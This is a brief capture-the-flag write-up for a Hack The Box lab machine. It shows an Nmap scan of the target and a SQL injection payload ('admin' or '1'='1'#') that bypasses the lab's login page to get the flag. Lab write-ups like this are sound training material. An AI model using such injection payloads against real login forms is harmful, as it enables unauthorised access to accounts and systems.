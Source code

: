 ## Reconnaissance

Kicking off with a simple Nmap scan...

__Nmap Scan__
```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Tier-1/three]
└─$ sudo nmap -sC -sV -oN nmap.txt 10.129.92.59
Nmap scan report for 10.129.92.59
Host is up (0.017s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Login
|_http-favicon: Unknown favicon MD5: 7D4140C76BF7648531683BFA4F7F8C22
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.38 (Debian)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jan 17 19:49:07 2022 -- 1 IP address (1 host up) scanned in 18.30 seconds
```


On visiting the web-site I see a login. I tried common passwords (admmin:admin, admin:password, etc) but it didn't work.

So, I guess, I'll have to use some kind of injection technique to bypass the login page.

Firstly, i tried SQL Injection and it gave me an `SQL` error, so I was pretty sure that the authentication form is vulnerable to SQL injection. So I tried various SQL paylaods to bypass theh authentication page and the one that finally worked was
```
username: admin' or '1'='1'#
password: <anything>
```

Once, you're logged in, you get the flag to complete the exercise.
